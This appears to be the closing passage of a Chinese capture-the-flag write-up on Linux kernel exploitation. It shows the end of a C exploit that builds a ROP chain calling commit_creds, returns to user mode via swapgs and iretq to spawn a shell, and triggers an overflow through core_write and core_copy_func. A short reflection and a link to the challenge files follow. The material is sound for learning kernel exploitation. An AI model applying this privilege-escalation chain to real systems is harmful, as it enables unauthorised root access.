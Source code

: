 ```c
    rop[i++] = vmlinux_base + 0xa0f49;      //pop_rdx_ret
    rop[i++] = vmlinux_base + 0x21e53;      //pop_rcx_ret
    rop[i++] = vmlinux_base + 0x1aa6a;      //mov_rdi_rax_call_rdx
    rop[i++] = commit_creds_addr;
    rop[i++] = core_base + 0xd6;            //swapgs_ret
    rop[i++] = 0;                           //rbp(junk)
    rop[i++] = vmlinux_base + 0x50ac2;      //iretp_ret
    rop[i++] = (size_t)shell;
    rop[i++] = user_cs;
    rop[i++] = user_eflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;
    core_write(rop,0x100);
    core_copy_func(0xf000000000000100);
    return 0;
}
```
# 0x04  总结
这是我进入 Linux Kernel pwn 的敲门砖，自己当时听完觉得有点迷糊，看了代码的时候觉得很简单，但是当自己敲的时候又有很多问题不懂，只有当敲完一遍，把程序流程梳理了之后很多地方都清晰了。Linux 内核是很大的世界，要想完全理解，还要深入研究

题目下载地址：https://github.com/Vinadiak/LinuxKernelPwn
